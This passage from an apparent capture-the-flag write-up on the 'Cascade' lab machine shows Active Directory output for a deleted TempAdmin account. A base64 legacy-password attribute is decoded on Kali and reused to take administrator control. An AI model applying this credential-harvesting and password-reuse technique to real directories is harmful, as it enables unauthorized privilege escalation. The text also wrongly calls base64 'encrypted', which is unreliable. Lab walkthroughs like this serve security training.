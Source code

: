 ```powershell
accountExpires                  : 9223372036854775807
badPasswordTime                 : 0
badPwdCount                     : 0
CanonicalName                   : cascade.local/Deleted Objects/TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
cascadeLegacyPwd                : YmFDVDNyMWFOMDBkbGVz
CN                              : TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
codePage                        : 0
countryCode                     : 0
Created                         : 1/27/2020 3:23:08 AM
createTimeStamp                 : 1/27/2020 3:23:08 AM
Deleted                         : True
Description                     :
```

Here we get `TempAdmin` password we know both Admin and `TempAdmin` password is same.

We know its base64 encrypted so encoding it gives me that password.

```nix
root@kali:~/CTF/HTB/Boxes/Cascade# echo -n YmFDVDNyMWFOMDBkbGVz | base64 -d
baCT3r1aN00dles
```

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-cascade/Untitled%205.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-cascade/Untitled%205.png)

We own the System